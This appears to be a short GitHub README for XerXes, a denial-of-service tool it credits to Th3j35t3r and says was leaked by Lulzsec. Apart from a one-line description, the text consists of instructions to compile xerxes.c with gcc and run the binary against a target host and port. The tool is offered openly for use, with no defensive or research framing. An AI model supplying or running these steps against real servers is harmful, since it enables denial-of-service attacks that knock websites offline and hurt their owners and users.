 # XerXes
The DoS tool created by Th3j35t3r, considered one of the most powerful tools since it's creation, leaked by Lulzsec.

In order to use it, type in the terminal:

$ gcc xerxes.c -o xerxes

$ ./xerxes www.fakesite.com 80
